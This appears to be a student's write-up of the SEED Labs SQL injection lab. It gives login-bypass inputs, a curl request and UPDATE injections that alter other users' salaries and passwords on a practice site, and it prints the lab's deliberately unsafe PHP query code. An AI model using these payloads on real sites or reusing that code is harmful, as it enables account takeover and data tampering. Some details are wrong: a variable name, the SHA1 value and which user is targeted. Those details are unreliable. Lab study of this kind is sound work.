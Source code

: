 # SQL-Injection-attack-lab

### Task 1:

	Log in MYSQL:
  
//code
```sql

mysql -u root -pseedubuntu

mysql> use Users;
    
mysql> show tables;
    
	Use such a SQL query:

select * from credential where Name='Alice';

```

![Untitled](Pics/task1.png)

### Task 2:

--> Task 2.1

	.USERNAME: "Admin' #"
  
	.PASSWORD: "xyz" (here is password is optional)

	We will result in SQL Query
  
//code
```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
    
FROM credential
    
WHERE name='Admin' #' && password='xyz'
```
    
--> Task 2.2

	1- Write Code on Terminator in Seed Lab:
  
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
  
	2- Copy the HTML code.
  
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
  
	4. Run this location on browser

![Untitled](Pics/task2.2.png)

--> Task 2.3

	inject statment to append a row to current database:
  
//code

```sql

INSERT INTO credential (name,eid) VALUES('abc', '17422');
  
After row inserted, go to browser and input as:
  
.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('abc','17422') #"
  
.PASSWORD: "" (blank field)
```

![Untitled](Pics/task2.3.png)

(optional lines)

	PHP's mysqli extension, involes mysqli::query API to handle SQL statement,
  
doesn't support for multiple queries with in the same run. Of course, the design of this API 
attributes to concern of SQL injection.

### Task 3

EDIT profile can be run on line "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

	1- Login as Username= 'Alice' && Password = xyz,
  
	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
  
	3- Update Phone Number as ', Salary=1000000 and save.
  
--> Task 3.2

	1- Login as Username= 'Boby' #' and then open edit profile
  
	2- Update Phone Number: ',Salary=0 and remaining unchanges



	Login as Alice
  
		Assume login as Boby and keep Alice login too. Open Alice profile edit
    
	Update Phone Number: ', Salary=1 where name='Boby' #
  
  ![Untitled](Pics/task3.2.png)
  
--> Task 3.3

	We're login as Boby but change password of Alice
  
//backend code


```js
	$conn = getDB();
  
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
  
	if($input_pwd!=''){
		
		// In case password field is not empty.
  
	$hashed_ = sha1($input_pwd);
  
		//Update the password stored in the session.
  
	$_SESSION['pwd']=$hashed_pwd;
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
  
	}else{
  
		// if passowrd field is empty.
  
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
  
	$conn->query($sql);
  
	$conn->close();
  
	header("Location: unsafe_home.php");
  
	exit();
```

Updation will be on Phone Number field;

Let Boby password as '123'. We must get SHA1 value of new password via some tool as: c0b656d5e415ca1a8e098a408f913ec229e120b6
  
Constuct Phone Number:', password='c0b656d5e415ca1a8e098a408f913ec229e120b6' where name='Boby' #
  
Save it and changes works accordingly. 

![Untitled](Pics/task3.3.png)

